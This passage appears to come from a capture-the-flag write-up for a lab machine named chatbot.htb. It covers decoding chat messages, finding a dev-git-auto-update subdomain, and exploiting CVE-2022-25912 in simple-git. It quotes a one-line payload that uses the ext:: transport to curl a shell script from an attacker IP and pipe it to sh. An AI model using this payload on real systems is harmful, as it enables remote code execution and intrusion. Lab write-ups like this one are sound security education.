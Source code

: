 Decoding the received strings we obtain the following message:

```text
Greetings!. How can i help you today ?. You can type help to see some buildin commands
Hello, I am Admin.Testing the Chat Application
Write a script for  dev-git-auto-update.chatbot.htb to work properly
Write a script to automate the auto-update
```

So I added `dev-git-auto-update.chatbot.htb` to */etc/hosts* and I visited the page.

<p align="center">
  <img src="images/dev_git.png" />
</p>

## 4. CVE-2022-25912

Searching for exploits for *simple-git v3.14* I found [CVE-2022-25912](https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221) which mentions the possibility of performing an RCE. Then I opened a shell with the following command: `ext::sh -c curl http://IP:PORT/shell.sh|sh`.

<p align="center">
  <img src="images/rev.png" />
</p>

We don't have access to the user flag so we have to find a way to do lateral moving. After a bit of research I saw that MongoDB is present, so I started interacting and found some credentials.
